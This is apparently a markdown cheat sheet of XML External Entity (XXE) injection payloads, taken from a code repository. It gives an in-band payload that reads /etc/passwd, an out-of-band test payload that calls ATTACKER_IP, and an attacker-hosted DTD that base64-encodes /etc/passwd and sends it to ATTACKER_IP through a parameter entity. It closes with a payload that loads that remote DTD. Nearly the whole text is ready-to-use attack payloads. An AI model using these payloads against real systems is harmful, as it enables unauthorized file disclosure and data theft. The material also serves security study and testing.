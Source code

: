 # XXE Injection

## In-Band
```xml
<!DOCTYPE foo [
	<!ELEMENT foo ANY >
	<!ENTITY xxe SYSTEM "file:///etc/passwd" >
]>
<contact>
	<name>&xxe;</name>
	<email>test@test.com</email>
	<message>test</message>
</contact>
```

## Out-of-Band
<b>Example</b>:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<upload>
  <file>
    http://10.10.27.41/uploads/file_66981c1d9d7f81.07058312.txt
  </file>
</upload>
```

### Test Payload
```xml
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "http://ATTACKER_IP:1337/" >]>
<upload><file>&xxe;</file></upload>
```

### `sample.dtd` (in attacker’s machine) File Content
```xml
<!ENTITY % cmd SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % oobxxe "<!ENTITY exfil SYSTEM 'http://ATTACKER_IP:port/?data=%cmd;'>">
%oobxxe;
```

### Payload
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE upload SYSTEM "http://ATTACKER_IP:port/sample.dtd">
<upload>
  <file>&exfil;</file>
</upload>
```